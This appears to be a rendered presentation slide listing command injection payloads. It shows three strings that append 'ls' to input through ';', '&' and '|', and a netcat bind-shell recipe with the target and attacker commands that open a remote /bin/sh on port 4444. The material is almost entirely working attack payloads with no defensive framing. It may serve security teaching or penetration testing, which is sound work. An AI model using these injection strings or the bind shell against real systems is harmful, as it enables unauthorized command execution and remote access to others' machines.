

# Command Injection Payloads
<input>;ls
<input>& ls
<input>|ls

Bind Shell:
Target: & nc -lvp 4444 -e /bin/sh &
Attacker: nc 127.0.0.1 4444